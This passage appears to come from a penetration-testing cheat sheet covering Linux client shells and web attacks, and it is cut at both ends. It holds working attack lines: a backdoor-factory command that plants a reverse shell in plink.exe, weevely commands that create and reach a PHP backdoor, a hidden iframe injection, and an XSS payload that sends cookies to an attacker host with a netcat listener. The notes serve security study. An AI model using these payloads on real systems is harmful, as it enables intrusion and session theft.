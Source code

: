     -   Linux Client Shells
        [*http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/*](http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

    -   Setting up the Client Side Exploit

    -   Swapping Out the Shellcode

    -   Injecting a Backdoor Shell into Plink.exe
        backdoor-factory -f /usr/share/windows-binaries/plink.exe -H $ip
        -P 4444 -s reverse\_shell\_tcp

-   <span id="_n6fr3j21cp1m" class="anchor"><span id="_Toc480741818" class="anchor"></span></span>Web Attacks
    ---------------------------------------------------------------------------------------------------------

    -   Web Shag Web Application Vulnerability Assessment Platform
        webshag-gui

    -   Web Shells
        [*http://tools.kali.org/maintaining-access/webshells*](http://tools.kali.org/maintaining-access/webshells)
        ls -l /usr/share/webshells/

    -   Generate a PHP backdoor (generate) protected with the given
        password (s3cr3t)
        weevely generate s3cr3t
        weevely http://$ip/weevely.php s3cr3t

    -   Java Signed Applet Attack

    -   HTTP / HTTPS Webserver Enumeration

        -   OWASP Dirbuster

        -   nikto -h $ip

    -   Essential Iceweasel Add-ons
        Cookies Manager
        https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/
        Tamper Data
        https://addons.mozilla.org/en-US/firefox/addon/tamper-data/

    -   Cross Site Scripting (XSS)
        significant impacts, such as cookie stealing and authentication
        bypass, redirecting the victim’s browser to a malicious HTML
        page, and more

    -   Browser Redirection and IFRAME Injection
        <iframe SRC="http://$ip/report" height = "0" width
        ="0"></iframe>

    -   Stealing Cookies and Session Information
        <script>
        new
        image().src="http://$ip/bogus.php?output="+document.cookie;
        </script>
        nc -nlvp 80
